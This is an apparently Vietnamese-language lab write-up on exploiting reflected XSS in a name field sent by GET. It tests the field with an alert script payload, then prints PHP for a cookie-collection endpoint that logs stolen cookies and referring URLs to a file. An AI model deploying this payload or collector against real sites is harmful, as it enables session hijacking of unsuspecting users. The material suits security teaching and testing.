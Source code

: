 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

"
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
"

